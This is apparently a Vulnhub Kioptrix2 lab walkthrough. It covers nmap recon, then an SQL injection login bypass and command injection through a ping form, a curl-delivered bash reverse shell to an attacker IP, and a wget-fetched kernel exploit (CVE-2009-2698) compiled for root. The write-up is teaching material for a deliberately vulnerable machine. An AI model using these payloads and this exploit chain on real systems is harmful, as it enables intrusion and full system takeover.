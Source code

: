 ```yaml
---
title: Vulnhub Kioptrix2 Walkthrough
---
```


# Recon
## Nmap

Running `nmap` on the box ip reveals `6` open ports :

```bash

nmap -sC -sV -p- 192.168.1.21 --min-rate 10000 

Nmap scan report for 192.168.1.21 (192.168.1.21)
Host is up (0.38s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)

```

I'll sort them :

* `80`   http 
* `22`   ssh      
* `111`   rpcbind  
* `443`   ssl/http Apache httpd 2.0.52 ((CentOS))
* `631`    ipp      CUPS 1.1
* `3306`  mysql

## Port 80
Navigating to port 80 we see a login panel , my first hunch is to bypass the authentication and one way to do that is by sql injection :

Throwing a simple payload like `admin ' and 1=1 -- -` lead us to bypass the authetication and land on an Administrative Web Console where you can use ping command .


# Remote Code Execution
Seeing the ping command , our first try is to see if we can abuse that fonctionnality to run other commands by appending it to `ping` .

by typing this in the box : `127.0.0.1;id`

we got code execution :

```bash

127.0.0.1;id
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.090 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.072 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.087 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.072/0.083/0.090/0.007 ms, pipe 2
uid=48(apache) gid=48(apache) groups=48(apache)
```
we can use curl to view the output clearly :


```bash

curl -s -k -X 'POST' -H 'Host: 192.168.5.254' --data-binary 'ip=127.0.0.1;id&submit=submit' 'http://192.168.5.254/pingit.php'
127.0.0.1;id<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.064 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.041 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.044 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.041/0.049/0.064/0.013 ms, pipe 2
uid=48(apache) gid=48(apache) groups=48(apache)

```
# Shell as Apache 

we run our last `curl `command but this time i use a reverse shell instead of `id` command 

```bash
 ⚡ root@kali  ~  curl -s -k -X 'POST' -H 'Host: 192.168.5.254' --data-binary 'ip=127.0.0.1;bash+-i+>%26+/dev/tcp/192.168.5.214/4444+0>%261&submit=submit' 'http://192.168.5.254/pingit.php'


```
And on another tab i launch `nc` :

```bash

 ⚡ root@kali  ~  nc -lvp 4444                                            
listening on [any] 4444 ...
192.168.5.254: inverse host lookup failed: Unknown host
connect to [192.168.5.214] from (UNKNOWN) [192.168.5.254] 32769
bash: no job control in this shell
bash-3.00$ 


```
I'll use my upgrade my shell commands :

```bash

python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
export PATH=/usr/local/sbin:/usr/local/bin:/usr/bin:/usr/sbin:/sbin:/bin:/usr/games:/tmp
alias ll='clear;ls -lsaht --color=auto'
Ctrl+z

stty raw -echo ;fg;reset 
stty columns 200 rows 116

```

# Privesc 
We will use a kernel exploit to privesc to `root` , because other methods to privesc didn't yields any results 

we use those three commands to get the kernel and exact OS version : it's a `Centos 4.5` with `kernel 2.6.9-55 ` linux

```bash

bash-3.00$ file /bin/bash
/bin/bash: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), for GNU/Linux 2.2.5, dynamically linked (uses shared libs), stripped

bash-3.00$ cat /etc/*-release 
CentOS release 4.5 (Final)

bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

```
Using `searchsploit` we got a match : 

```bash
searchsploit linux kernel 2 centos 4.5 local
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privilege Escalation (5 | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1) | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfutex' Local Privilege Escalation                                                        | linux/local/35370.c
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

I will copy it to my working directory 

```bash
searchsploit -m linux_x86/local/9542.c                       
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
    Codes: CVE-2009-2698
 Verified: True
File Type: C source, ASCII text
Copied to: /oscp/Vulnhub/kioptrix2/9542.c


```

and use `updog ` to launch an Http server for transfer , and on the box i use `wget` to get the file 

```bash

bash-3.00$ wget http://192.168.1.20:9090/9542.c
--14:38:12--  http://192.168.1.20:9090/9542.c
           => `9542.c'
Connecting to 192.168.1.20:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,535 (2.5K) [text/x-csrc]

 0% [                                                                                                                                                             ] 0  100%[============================================================================================================================================================>] 2,535         --.--K/s             

14:38:12 (2.92 MB/s) - `9542.c' saved [2535/2535]


```
I'll run `gcc ` to compile it  and lo and behold we are `root `:

```bash
bash-3.00$ gcc 9542.c -o 9542
9542.c:109:28: warning: no newline at end of file
bash-3.00$ ls
9542  9542.c
bash-3.00$ ./9542
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 


```
